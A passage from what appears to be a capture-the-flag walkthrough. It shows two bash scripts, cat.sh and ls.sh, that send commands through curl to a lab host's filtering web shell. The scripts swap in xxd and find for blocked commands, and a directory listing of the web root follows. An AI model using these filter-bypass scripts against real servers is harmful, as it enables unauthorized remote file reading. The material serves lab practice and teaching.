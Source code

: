 ### Web Shell

Although the web shell allows remote execution of commands in the context of `www-data`, it filters common commands such as `cat` and `ls`; and in return, displays unhelpful messages like "Nice try skid" or "Get out skid".

Essentially, `cat` reads a file's content and prints it to standard output in ASCII. If you've read permissions for the file, you can use `xxd` to achieve the same result, by first showing the content in hexadecimal, and then converting it back to ASCII before printing to standard output.

I wrote `cat.sh` to establish the idea of using `xxd` as the replacement for `cat`.

<div class="filename"><span>cat.sh</span></div>
```bash
#!/bin/bash

HOST=192.168.20.130
SHELL=dev_shell.php
CMD="xxd -p $1 | tr -d '\n'"

curl \
        -s \
        --data-urlencode "in_command=$CMD" \
        $HOST/$SHELL \
| sed '29!d' \
| sed -r -e 's/^\s+//' -e 's/  <\/div>//' \
| xxd -p -r
```

Another script I wrote, `ls.sh`—uses `find` as the replacement for `ls`.

<div class="filename"><span>ls.sh</span></div>
```bash
#!/bin/bash

HOST=192.168.20.130
SHELL=dev_shell.php
CMD="find $1 -ls"

curl \
        -s \
        --data-urlencode "in_command=$CMD" \
        $HOST/$SHELL \
| sed '/<h5>/,/<\/div>/!d' \
| sed -r -e '1d' -e '$d' -e 's/^\s+//' \
| column -t
```

Using `ls.sh` to list the files along with their permissions in a directory is easy.
```
# ./ls.sh /var/www/html
396954  4     drwxr-xr-x  2  root  root  4096     Mar  8  23:48  /var/www/html
393294  4     -rw-r--r--  1  root  root  1560     Mar  4  14:09  /var/www/html/login.html
393280  4     -rw-r--r--  1  root  root  3145     Mar  4  14:09  /var/www/html/contact.html
393341  4     -rw-r--r--  1  root  root  84       Mar  5  04:53  /var/www/html/.hint
393297  4     -rw-r--r--  1  root  root  111      Mar  4  14:09  /var/www/html/robots.txt
393292  4     -rw-r--r--  1  root  root  1425     Mar  4  14:09  /var/www/html/index.html.bak
393286  1152  -rw-r--r--  1  root  root  1177950  Mar  4  14:09  /var/www/html/dev_shell_back.png
393293  4     -rw-r--r--  1  root  root  1925     Mar  4  14:09  /var/www/html/lat_memo.html
393301  336   -rw-r--r--  1  root  root  340400   Mar  4  14:09  /var/www/html/WIP.jpg
393295  4     -rw-r--r--  1  root  root  4086     Mar  4  14:09  /var/www/html/news.html
393275  4     -rw-r--r--  1  root  root  2579     Mar  8  23:43  /var/www/html/about.html
393288  4     -rw-r--r--  1  root  root  1361     Mar  4  14:09  /var/www/html/dev_shell.php.bak
393299  28    -rw-r--r--  1  root  root  26357    Mar  4  14:09  /var/www/html/school_badge.png
393287  4     -rw-r--r--  1  root  root  1396     Mar  4  14:09  /var/www/html/dev_shell.php
397124  4     -rw-r--r--  1  root  root  1425     Mar  4  14:09  /var/www/html/index.html
393296  4     -rw-r--r--  1  root  root  673      Mar  8  23:43  /var/www/html/passwords.html
```
